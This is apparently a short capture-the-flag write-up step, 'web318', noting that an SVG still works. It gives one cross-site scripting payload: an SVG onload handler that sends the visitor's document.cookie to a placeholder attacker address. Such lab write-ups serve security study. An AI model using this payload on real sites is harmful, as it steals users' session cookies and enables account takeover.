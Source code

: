 # web318
依然使用svg
```
<svg onload="location.href='http://xx.xx.xx.xx/getflag.php?cookie='+document.cookie"/>
```
![](vx_images/400702462998806.png)
